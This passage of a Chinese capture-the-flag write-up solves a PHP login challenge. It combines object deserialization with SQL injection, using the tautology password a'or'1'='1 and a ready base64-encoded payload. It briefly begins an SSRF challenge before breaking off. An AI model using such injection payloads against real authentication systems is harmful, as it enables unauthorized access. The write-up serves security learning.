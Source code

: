 可以看到在 check_login 中，有个 flag 的输出点，前提是我们需要伪造成 admin 用户

![](https://imgconvert.csdnimg.cn/aHR0cHM6Ly9tbWJpei5xcGljLmNuL21tYml6X3BuZy8zUmh1VnlzRzlMZjQ5NXZFUzdVUXRlaWM0Z0tRZ1dTWHo5aEw1ODFLRjhxU2I5Sjk2ZFlZUHRlWVJMcW1rQVJtd3VpY0NXZmNSSEhRSVVlWnFWVGljVmtEdy82NDA?x-oss-process=image/format,png)

继续往下看，有个执行 SQL 语句的地方

![](https://imgconvert.csdnimg.cn/aHR0cHM6Ly9tbWJpei5xcGljLmNuL21tYml6X3BuZy8zUmh1VnlzRzlMZjQ5NXZFUzdVUXRlaWM0Z0tRZ1dTWHpCa2pWVWliTVp2YzJoZHBWUElLZkk4aWIzWDdwaDRrS01UZ1ZXemU1aWNqOWo3bXVYUEJIdlVXS1EvNjQw?x-oss-process=image/format,png)

```php
 public function query() {
        $this->waf();
        return $this->conn->query ("select username,password from ".$this->table." where username='".$this->username."' and password='".$this->password."'");
    } 
```

下面还有个 waf，看了一下，发现我们需要构造的万能密码所用到的字符不会被 ban

```php
$blacklist = ["union", "join", "!", "\"", "#", "$", "%", "&", ".", "/", ":", ";", "^", "_", "`", "{", "|", "}", "<", ">", "?", "@", "[", "\\", "]" , "*", "+", "-"];
           foreach ($blacklist as $value) {
                  if(strripos($this->table, $value)){
                         die('bad hacker,go out!');
                  }
           } 
```

所以这里我们可以利用 SQL 注入来变成 admin 登录，username 改为 admin，password 为万能密码 a'or'1'='1，代码如下：
```php
    include "conn.php";
    $sql = new SQL();
    $sql->table = "users";
    $sql->username = "admin";
    $sql->password = "a'or'1'='1";
    $a = serialize($sql);
    echo $a;
    echo base64_encode ($a); 
```
得到

```
TzozOiJTUUwiOjQ6e3M6NToidGFibGUiO3M6NToidXNlcnMiO3M6ODoidXNlcm5hbWUiO3M6NToiYWRtaW4iO3M6ODoicGFzc3dvcmQiO3M6MTA6ImEnb3InMSc9JzEiO3M6NDoiY29ubiI7Tjt9，
```

输入之后获得flag 

![](https://imgconvert.csdnimg.cn/aHR0cHM6Ly9tbWJpei5xcGljLmNuL21tYml6X3BuZy8zUmh1VnlzRzlMZjQ5NXZFUzdVUXRlaWM0Z0tRZ1dTWHpsdUgyaWMyblVCSEJlc1g5M093QlRQaWJpYzlyYjRYYjFEd0xsNFVPWGs2b0Vab21ZMVBPOWljWVJ3LzY0MA?x-oss-process=image/format,png)

**0x04 ssrfME**

访问可以看到有两个输入点，一个可以输入 url，一个是验证码

![](https://imgconvert.csdnimg.cn/aHR0cHM6Ly9tbWJpei5xcGljLmNuL21tYml6X3BuZy8zUmh1VnlzRzlMZjQ5NXZFUzdVUXRlaWM0Z0tRZ1dTWHpxcjFGRWlhVkRrT3JPSjEyS3hmaWFpY1M4RlRLZzFCNlIwRjJSa2tUaWEyR0VmZ012Wk9UQWs1NkZBLzY0MA?x-oss-process=image/format,png)

脚本爆破验证
